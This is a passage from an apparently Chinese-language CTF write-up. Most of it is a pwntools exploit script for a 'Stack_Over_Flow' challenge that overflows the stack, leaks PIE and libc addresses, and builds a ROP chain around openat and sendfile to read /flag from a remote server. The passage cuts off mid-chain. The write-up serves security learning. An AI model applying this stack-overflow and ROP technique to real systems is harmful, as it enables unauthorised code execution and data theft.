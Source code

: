 那么已知libc以后，根据沙箱限制，只要做 `openat(AT_FDCWD, "/flag", 0, 0)` 和
`sendfile(1, 3, NULL, 0x50)` 就可以把flag打印出来了。

> [!NOTE]
> 这道题的环境怪得很，必须要国内网络才能访问，否则无法发送任何内容过去，
> 其他题都没有这个问题

## EXPLOIT

```python
from pwn import *
from pwnlib.rop import gadgets
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './Stack_Over_Flow'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('45.40.247.139', 23522)
    elf = ELF(EXE)
    libc = elf.libc

    # stage 2 hack 1
    t.sendafter(b'Good luck', b'\0' * 0x108 + p8(0x5f)) # keep stack aligned

    t.recvuntil(b'magic number:')
    number = int(t.recvline())
    main = number // 3
    if main & 0xff != 0xb0:
        main = number // 4

    pie_base = main - 0x16b0
    success(GOLD_TEXT(f'Leak pie_base: {pie_base:#x}'))
    elf.address = pie_base

    # stage 2 hack 2
    second = pie_base + 0x161f
    t.sendafter(b'Good luck', flat(b'\0' * 0x108, elf.plt['rand'], elf.plt['puts'], second))
    libc_base = (u64(t.recvuntil(b'\nWelcome', True)[-6:] + b'\0\0') & ~0xff) - 0x21a200 # randtbl
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # back to second
    gadgets = ROP(libc)
    chain = flat([
        gadgets.rdi.address, 0,
        gadgets.rsi.address, elf.bss(0x800),
        gadgets.rdx.address, 0x20, 0, # pop rdx; pop rbx
        libc.symbols['read'],
    ], [
        gadgets.rdi.address, (1 << 64) - 100, # AT_FDCWD
        gadgets.rsi.address, elf.bss(0x800),
        gadgets.rdx.address, 0, 0,
        gadgets.rcx.address, 0,
        libc.symbols['openat'],
    ], [
        gadgets.rdi.address, 1,
        gadgets.rsi.address, 3,
```